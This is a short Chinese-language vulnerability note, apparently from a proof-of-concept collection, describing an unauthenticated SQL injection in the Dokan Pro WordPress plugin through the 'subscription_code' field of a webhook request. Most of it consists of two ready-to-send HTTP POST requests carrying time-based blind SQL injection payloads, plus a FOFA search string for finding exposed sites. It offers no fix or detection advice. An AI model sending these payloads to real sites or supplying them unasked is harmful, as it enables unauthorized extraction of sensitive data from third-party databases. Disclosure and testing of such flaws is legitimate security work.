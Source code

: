 **漏洞名称**

Dokan Pro SQL 注入漏洞

**漏洞影响**

Dokan Pro <= 3.10.3版本

**漏洞描述**

Dokan Pro插件在3.10.3及以下版本中，由于对用户提供的'subscription_code'参数缺乏足够的转义处理以及现有SQL查询准备不足，在/wp-admin/admin.php接口处存在SQL注入漏洞。未授权攻击者可通过该漏洞向现有查询中注入额外的SQL语句，进而从数据库中提取敏感信息。

**FOFA搜索语句**

"/wp-content/plugins/dokan-pro/"

**漏洞复现**

POC数据包如下，让延时6秒

```yaml
POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:21.0) Gecko/20100101 Firefox/21.0
Connection: close
Content-Length: 133
Accept-Encoding: gzip

{"env":"1","event":"invoice.created","resource":{"subscription_code":"11111' and (select 1 from (select sleep( if(1=1,6,0) ))x )='"}}
```

让延时10秒

```yaml

POST /wp-admin/admin.php?webhook=dokan-moip HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:21.0) Gecko/20100101 Firefox/21.0
Connection: close
Content-Length: 133
Accept-Encoding: gzip

{"env":"1","event":"invoice.created","resource":{"subscription_code":"11111' and (select 1 from (select sleep( if(1=1,10,0) ))x )='"}}

```

